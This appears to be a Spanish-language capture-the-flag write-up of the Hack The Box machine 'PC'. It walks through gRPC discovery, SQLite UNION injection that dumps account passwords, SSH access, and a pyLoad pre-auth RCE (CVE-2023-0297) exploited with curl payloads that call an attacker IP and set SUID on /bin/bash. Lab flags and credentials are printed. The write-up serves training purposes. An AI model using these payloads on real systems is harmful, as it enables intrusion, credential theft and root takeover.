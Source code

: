 ```yaml
---
title: PC HTB
date: 2023-07-19
tier: easy
author: naibu3
---
```


# Reconocimiento

Como siempre comenzamos lanzando [[nmap]], para tratar de buscar puertos abiertos:

```bash
sudo nmap -sS -p- --open --min-rate 5000 -n -Pn 10.10.11.214
```
```nmap
PORT      STATE SERVICE
22/tcp    open  ssh
50051/tcp open  unknown
```

Ahora tratamos de detectar versiones y servicios:

```bash
sudo nmap -sCV -p22,50051 -n -Pn 10.10.11.214
```
```nmap
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
50051/tcp open  unknown
```

Vemos que se trata de un puerto bastante raro. Además si tratamos de comunicarnos con [[curl]], nos da el siguiente mensaje de error:

```curl
Received HTTP/0.9 when not allowed
```

Si buscamos el error y *service*, encontraremos que puede tratarse de un servicio [[gRPC]]. Además, en este [artículo](https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9) se detalla bastante. Podemos utilizar la herramienta [[grpcurl]], pero es más cómoda [[grpcui]]. Así que la instalamos y utilizamos el siguiente comando:

```bash
grpcui -plaintext 10.10.11.214:50051
```

Se nos abrirá en el navegador una pestaña mediante la cuál podremos tramitar peticiones a la API. Si tratamos de hacer *login* con las credenciales *admin:admin*, veremos que nos dan un *Jason Web Token* ([[JWT]]) y un *ID*. Ahora, si tratamos de hacer una petición a *getInfo*, pasando el ID y el JWT, veremos un mensaje de error `Unexpected <class 'TypeError'>: 'NoneType' object is not subscriptable`. Si tratamos de capturar la petición con [[burpsuite]] y probamos con una inyección SQL ([[SQLI]]) como `OR 1=1-- -`, veremos que nos reporta un error, dándonos la pista de que pueda ser vulnerable a [[SQLI]].

# Explotación

Vamos a tratar de enumerar la base de datos, para ver que tipo de BD se trata, probaremos distintas funciones de cada gestor (puedes verlas en [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection)). Si probamos con una de **SQLite**:

```sql
542 UNION SELECT sqlite_version()=sqlite_version()-- -
```

Vemos que funciona, por lo que el gestor es **SQLite**. Vamos a tratar ahora de enumerar las bases de datos (utilizaremos las inyecciones de [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)):

```sql
542 UNIoN SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -
```

En la respuesta vemos dos tablas **accounts** y **messages**. Vamos a tratar de ver qué columnas hay en **accounts**:

```sql
542 UNIoN SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='accounts'-- -
```

Y vemos que hay dos columnas **username** y **password**. Ya podemos directamente tratar de listar los usuarios (debemos utilizar *group_concat*):

```sql
542 UNION SELECT group_concat(username) FROM accounts-- -
```

Y vemos que existen dos usuarios **admin** y **sau**. Vamos a tratar de listar sus contraseñas:

```sql
542 UNIoN SELECT group_concat(password) From accounts WHERE username='sau'-- -
```

Para *admin* ya sabíamos que era *admin*, y tenemos que para **sau** es **HereIsYourPassWord1431**. Si tratamos de acceder por [[22-ssh]], lograremos acceder y ver la **flag de usuario** (`83508536f23f17e1e05c57c82ed1c8cb`).

# Escalada de privilegios

Una vez dentro comenzaremos con el [[Reconocimiento del equipo]]. Como no vemos nada sospechoso lanzamos [[linpeas]]. Entre otras cosas, podemos ver que hay un servicio corriendo en el puerto 8000:

```linpeas
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::50051                :::*                    LISTEN      -
```

Así que hacemos [[port forwarding]]:

```bash
ssh -L 8000:127.0.0.1:8000 sau@10.10.11.214
```

Si lanzamos [[nmap]]:

```bash
nmap -p8000 -sCV localhost
```
```nmap
PORT     STATE SERVICE VERSION
8000/tcp open  http    CherryPy wsgiserver
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Cheroot/8.6.0
| http-title: Login - pyLoad 
|_Requested resource was /login?next=http%3A%2F%2Flocalhost%3A8000%2F
```

Vemos que está corriendo un servicio [[80-http]] con lo que parece un **pyLoad**. Si accedemos via navegador, confirmamos que se trata de dicho servicio. Veremos un panel de login en el que no parecen funcionar las credenciales por defecto.

Con una búsqueda por internet encontramos el siguiente [artículo](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad). Vemos que tenemos un [[RCE]]. Podemos comprobarlo montándonos un servidor http con [[python]] y tratando de mandarnos una petición desde el servidor:

```bash
curl -i -s -k -X $'POST' \                                                               
    --data-binary $'jk=pyimport%20os;os.system(\"curl%2010.10.16.114\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \ 
    $'http://localhost:8000/flash/addcrypted2'
```

Como recibimos la respuesta correctamente, podemos tratar de cambiar los privilegios de la bash:

```bash
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"chmod%20+4777%20/bin/bash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://localhost:8000/flash/addcrypted2'
```

Y ya con un `bash -p` ya seríamos root. La flag es (`a31593104e9b23a59b146166fc794f72`).